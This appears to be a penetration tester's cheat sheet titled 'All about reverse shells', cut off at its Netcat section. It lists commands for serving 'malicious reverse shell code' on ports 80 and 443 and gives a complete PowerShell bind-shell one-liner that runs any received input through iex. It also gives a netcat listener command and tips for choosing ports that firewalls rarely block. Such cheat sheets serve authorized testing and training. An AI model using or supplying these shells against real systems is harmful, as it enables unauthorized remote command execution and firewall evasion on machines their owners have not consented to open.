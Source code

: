 # All about reverse shells

* Try always using ports: 80 or 443 if open

# Serving

To upload malicious reverse shell code it is necessary to host this code

Try using ports 80 and 443 for this reason.

```
python -m SimpleHTTPServer 443
python3 -m http.server 443

php -S 0.0.0.0:443

ruby -run -e httpd . -p 443

busybox httpd -f -p 443
```

Refer for more to: https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/

# Bind Shells

## Powershell bind

```
#Uncomment and change the hardcoded port number (443) in the below line. Remove this help comment as well.

#$listener = [System.Net.Sockets.TcpListener]443;$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
```

# Reverse shells

All of those methods assume that necessary programs like nc, python, php and etc are installed on target hosts.

* Firewall allow mostly outbound connections, that's why rever shell is so popular.
* You always need a listener to connect a rev shell to
`nc -lvnp <PORT>`
* by <PORT> selection try using ports 80, 443 because they are mostly not blocked by firewalls

## Netcat
